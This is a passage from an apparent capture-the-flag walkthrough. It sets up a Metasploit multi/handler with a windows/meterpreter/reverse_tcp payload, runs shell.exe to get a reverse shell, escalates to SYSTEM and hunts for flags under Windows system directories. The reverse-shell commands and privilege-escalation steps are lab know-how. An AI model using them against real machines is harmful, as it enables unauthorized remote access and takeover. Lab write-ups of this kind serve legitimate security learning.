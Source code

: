 Let's use Metasploit multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost,lport

run

and run shell.exe

<img alt="" class="bh ko mr c jop-noMdConv" width="700" height="132" loading="lazy" role="presentation" src="resources/1_AFsW1MIelID9ck8z6apqBg.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 680px; max-width: 100%; height: auto;"> <img alt="" class="bh ko mr c jop-noMdConv" width="700" height="94" loading="lazy" role="presentation" src="resources/1_ERxaC97K4dUc_yivUEox4g.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 680px; max-width: 100%; height: auto;">

We can try an easy method to escalate our privilege to get the system. And it works!!

“Can you escalate privileges and read the flag in C://Windows//System32//config directory?”

I have answered this question, but it's buggy.

<img alt="" class="bh ko mr c jop-noMdConv" width="699" height="359" loading="lazy" role="presentation" src="resources/1_dwhR8m6kyc3ORflBb2z9Ww.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 680px; max-width: 100%; height: auto;">

flag4: “Looks like the flag present in the Administrator’s home denies direct access.”
